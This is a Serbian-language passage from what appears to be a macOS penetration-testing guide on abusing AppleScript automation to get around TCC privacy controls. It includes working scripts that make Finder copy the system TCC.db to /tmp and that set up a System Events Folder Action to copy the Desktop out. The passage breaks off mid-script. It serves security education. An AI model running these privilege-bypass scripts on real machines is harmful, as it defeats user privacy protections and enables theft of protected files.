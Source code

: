 {% tab title="Ukradi sistemski TCC.db" %}
```applescript
osascript<<EOD
tell application "Finder"
set sourceFile to POSIX file "/Library/Application Support/com.apple.TCC/TCC.db" as alias
set targetFolder to POSIX file "/tmp" as alias
duplicate file sourceFile to targetFolder with replacing
end tell
EOD
```
{% endtab %}
{% endtabs %}

Možete zloupotrebiti ovo da **napišete svoju bazu podataka korisnika TCC**.

{% hint style="warning" %}
Sa ovlašćenjem ćete moći **zatražiti od Findera pristup TCC ograničenim fasciklama** i dati vam fajlove, ali koliko znam nećete moći da naterate Finder da izvrši proizvoljan kod kako biste potpuno zloupotrebili njegov pristup FDA.

Stoga, nećete moći zloupotrebiti sve mogućnosti FDA.
{% endhint %}

Ovo je TCC prozor za dobijanje privilegija automatizacije nad Finderom:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt="" width="244"><figcaption></figcaption></figure>

{% hint style="danger" %}
Imajte na umu da zato što aplikacija **Automator** ima TCC ovlašćenje **`kTCCServiceAppleEvents`**, može **kontrolisati bilo koju aplikaciju**, poput Findera. Dakle, imajući ovlašćenje za kontrolu Automatora, takođe biste mogli kontrolisati **Finder** pomoću koda kao što je prikazano ispod:
{% endhint %}

<details><summary>Get a shell inside Automator</summary></details>

Isto važi i za **Script Editor aplikaciju,** ona može kontrolisati Finder, ali korišćenjem AppleScript-a ne možete je naterati da izvrši skriptu.

### Automatizacija (SE) ka nekim TCC

**System Events može kreirati Folder Actions, a Folder Actions mogu pristupiti nekim TCC folderima** (Desktop, Documents & Downloads), tako da se skripta poput sledeće može koristiti za zloupotrebu ovog ponašanja:
```bash
# Create script to execute with the action
cat > "/tmp/script.js" <<EOD
var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("cp -r $HOME/Desktop /tmp/desktop");
EOD

osacompile -l JavaScript -o "$HOME/Library/Scripts/Folder Action Scripts/script.scpt" "/tmp/script.js"

# Create folder action with System Events in "$HOME/Desktop"
osascript <<EOD
tell application "System Events"
-- Ensure Folder Actions are enabled
set folder actions enabled to true

-- Define the path to the folder and the script
set homeFolder to path to home folder as text
```